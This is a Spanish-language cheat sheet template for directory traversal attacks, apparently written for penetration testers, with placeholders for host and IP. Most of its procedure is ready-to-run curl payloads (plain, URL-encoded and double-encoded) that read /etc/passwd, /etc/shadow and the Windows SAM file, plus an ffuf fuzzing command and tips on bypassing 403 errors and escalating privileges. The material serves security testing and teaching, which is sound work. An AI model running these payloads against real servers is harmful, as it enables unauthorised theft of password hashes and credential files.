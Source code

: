 # CheatSheet: Directory Traversal

## Fecha: {FECHA}
## Host: {HOST}
## IP: {IP}

---

## Objetivo
Explorar y explotar vulnerabilidades de Directory Traversal para acceder 
a archivos y directorios sensibles fuera del directorio raíz permitido.

---
## Herramientas
1. Burp Suite

2. curl

3. Dirbuster
---
## Procedimiento y comandos
1. Paso 1: Identificar puntos de entrada: Examinar parámetros vulnerables en URLs o formularios:
	- **curl -X GET "http://{HOST}/vulnerable?file=../../../etc/passwd"**
2. Paso 2: Probar codificaciones comunes:
	- Codificación de URL (por ejemplo, %2e%2e%2f para ../):
	- **curl -X GET "http://{HOST}/vulnerable?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd"**
	- Doble codificación:
	- **curl -X GET "http://{HOST}/vulnerable?file=%252e%252e%252fetc%252fpasswd"**
3. Comprobar diferentes sistemas operativos:

- Windows:

**curl -X GET "http://{HOST}/vulnerable?file=..\\..\\..\\Windows\\System32\\config\\SAM"**

- Linux:

**curl -X GET "http://{HOST}/vulnerable?file=../../../../../etc/shadow"**
4. Automatización: Usar herramientas como Burp Suite con secuencias de ataque en Intruder o fuzzers:

** ffuf -u http://{HOST}/vulnerable?file=FUZZ -w payloads.txt **
---
## Troubleshooting
- Si el servidor responde con un código de error HTTP 403, probar diferentes codificaciones o técnicas de bypass.

- Si los resultados están limitados por permisos, intentar escalar privilegios o probar en rutas públicas conocidas.

- Verificar logs del servidor (si es accesible) para encontrar pistas de restricciones o rutas filtradas.
---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

